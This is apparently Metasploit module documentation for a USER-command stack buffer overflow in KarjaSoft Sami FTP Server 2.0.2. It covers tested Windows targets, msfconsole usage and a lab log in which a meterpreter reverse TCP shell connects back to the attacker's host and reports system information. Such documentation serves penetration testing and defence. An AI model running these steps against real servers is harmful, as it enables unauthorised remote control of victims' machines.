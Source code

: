 ## Vulnerable Application

This module exploits an unauthenticated stack buffer overflow in
KarjaSoft Sami FTP Server version 2.0.2 by sending an overly long
USER string during login.

The payload is triggered when the administrator opens the application
GUI. If the GUI window is open at the time of exploitation, the
payload will be executed immediately. Keep this in mind when selecting
payloads. The application will crash following execution of the
payload and will not restart automatically.

When the application is restarted, it will re-execute the payload
unless the payload has been manually removed from the SamiFTP.binlog
log file.

This module has been tested successfully on Sami FTP Server versions:

* 2.0.2 on Windows XP SP0 (x86)
* 2.0.2 on Windows 7 SP1 (x86)
* 2.0.2 on Windows 7 SP1 (x64)
* 2.0.2 on Windows 10 (1909) (x64)

## Verification Steps

Download:

* https://web.archive.org/web/20140218061003if_/http://www.karjasoft.com/files/samiftp/samiftpd_install.exe

Metasploit:

1. `msfconsole`
1. `use exploit/windows/ftp/sami_ftpd_user`
1. `set rhosts <rhosts>`
1. `exploit`

## Options

## Scenarios

### KarjaSoft Sami FTP Server version 2.0.2 on Windows 10 (1909) (x64)

```
msf > use exploit/windows/ftp/sami_ftpd_user 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/ftp/sami_ftpd_user) > set rhosts 172.16.191.199
rhosts => 172.16.191.199
msf exploit(windows/ftp/sami_ftpd_user) > check
[*] 172.16.191.199:21 - The target appears to be vulnerable. Sami FTP Server version 2.0.2.
msf exploit(windows/ftp/sami_ftpd_user) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] 172.16.191.199:21 - Executing automatic check (disable AutoCheck to override)
[+] 172.16.191.199:21 - The target appears to be vulnerable. Sami FTP Server version 2.0.2.
[*] 172.16.191.199:21 - Sending payload (1414 bytes) ...
[*] Sending stage (175174 bytes) to 172.16.191.199
[*] Meterpreter session 1 opened (172.16.191.192:4444 -> 172.16.191.199:49874) at 2021-02-19 20:24:31 -0500

meterpreter > getuid
Server username: DESKTOP-6VPIDIM\user
meterpreter > sysinfo
Computer        : DESKTOP-6VPIDIM
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 15
Meterpreter     : x86/windows
meterpreter > 
```

